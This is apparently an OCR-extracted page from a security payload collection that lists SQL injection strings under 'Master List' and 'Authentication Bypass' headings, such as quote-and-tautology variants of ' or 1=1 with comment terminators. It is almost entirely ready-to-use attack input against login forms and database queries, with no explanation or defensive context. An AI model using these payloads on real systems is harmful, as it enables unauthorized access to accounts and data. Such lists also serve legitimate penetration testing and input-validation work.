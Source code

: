 ```c
OK
```

#### SQL Injection

##### Master List

```c
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

##### Authentication Bypass

```c
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
```